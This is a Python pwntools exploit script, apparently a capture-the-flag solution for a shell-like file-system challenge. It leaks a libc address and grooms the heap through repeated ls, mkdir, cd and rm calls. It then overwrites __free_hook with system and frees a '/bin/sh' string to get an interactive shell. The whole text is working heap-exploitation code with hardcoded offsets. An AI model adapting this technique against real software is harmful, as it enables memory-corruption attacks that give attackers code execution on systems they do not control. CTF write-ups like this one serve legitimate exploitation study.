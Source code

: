 ```python
rm('tmp/2')
cmd('ls '.ljust(0x63, 'a'))
cat('DIR/DIR2/DIR2')

x = r.recvuntil('$ ')
x = r.recvuntil('$ ', drop=True)
print repr(x)
libc = u64(x.ljust(8, '\x00')) - 0x3dacc8
print 'libc: 0x%x' % libc
raw_input("@")
#cmd('ls '.ljust(0x63, 'a'))

# clear arena
r.sendline('A'*0x10)
ls('A'*0x10)
for i in range(3):
    ls('A'*0x30)
for i in range(8):
    ls('A'*0x50)

# exploit
mkdir('JIZZ')
cd('JIZZ')
for i in range(10):
    mkdir('J')
    cd('J')
for i in range(10):
    cd('..')
cd('..')
rm('JIZZ')
mkdir('JIZZ')
rm('JIZZ/JIZZ')
ls('a')
ls('a')
__free_hook = libc + 0x3dc8a8
system = libc + 0x47dc0
#ls(flat(__free_hook-0x10+5-8)[:-1])
ls(flat(__free_hook-0x10)[:-1])
ls('a')
ls('a')
ls(flat(system))
mkfile('sh', '/bin/sh')
rm('sh')


r.interactive()

```

### Secret Note
